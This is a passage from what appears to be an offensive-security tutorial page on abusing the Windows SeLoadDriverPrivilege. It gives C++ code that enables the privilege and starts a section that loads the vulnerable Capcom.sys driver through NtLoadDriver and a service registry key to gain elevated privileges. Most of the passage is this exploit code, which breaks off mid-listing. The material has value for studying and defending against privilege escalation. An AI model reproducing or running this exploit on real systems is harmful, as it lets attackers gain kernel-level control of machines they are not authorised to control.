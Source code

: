 We compile the above, execute and the privilege `SeLoadDriverPrivilege` is now enabled:

![](../../.gitbook/assets/screenshot-from-2018-12-17-22-45-54.png)

### Capcom.sys Driver Exploit

To further prove the `SeLoadDriverPrivilege` is dangerous, let's exploit it to elevate privileges.

Let's build on the previous code and leverage the Win32 API call `ntdll.NtLoadDriver()` to load the malicious kernel driver `Capcom.sys`. Note that lines 55 and 56 of the `privileges.cpp` are:

```cpp
PCWSTR pPathSource = L"C:\\experiments\\privileges\\Capcom.sys";
PCWSTR pPathSourceReg = L"\\registry\\machine\\System\\CurrentControlSet\\Services\\SomeService";
```

The first one declares a string variable indicating where the vulnerable Capcom.sys driver is located on the victim system and the second one is a string variable indicating a service name that will be used (could be any service) when executing the exploit:

{% code title="privileges.cpp" %}
```cpp
#include "stdafx.h"
#include <windows.h>
#include <stdio.h>
#include <ntsecapi.h>
#include <stdlib.h>
#include <locale.h>
#include <iostream>
#include "stdafx.h"

NTSTATUS(NTAPI *NtLoadDriver)(IN PUNICODE_STRING DriverServiceName);
VOID(NTAPI *RtlInitUnicodeString)(PUNICODE_STRING DestinationString, PCWSTR SourceString);
NTSTATUS(NTAPI *NtUnloadDriver)(IN PUNICODE_STRING DriverServiceName);

int main()
{
	TOKEN_PRIVILEGES tp;
	LUID luid;
	bool bEnablePrivilege(true);
	HANDLE hToken(NULL);
	OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken);

	if (!LookupPrivilegeValue(
		NULL,            // lookup privilege on local system
		L"SeLoadDriverPrivilege",   // privilege to lookup 
		&luid))        // receives LUID of privilege
	{
		printf("LookupPrivilegeValue error: %un", GetLastError());
		return FALSE;
	}
	tp.PrivilegeCount = 1;
	tp.Privileges[0].Luid = luid;
	
	if (bEnablePrivilege) {
		tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
	}
	
	// Enable the privilege or disable all privileges.
	if (!AdjustTokenPrivileges(
		hToken,
		FALSE,
		&tp,
		sizeof(TOKEN_PRIVILEGES),
		(PTOKEN_PRIVILEGES)NULL,
		(PDWORD)NULL))
```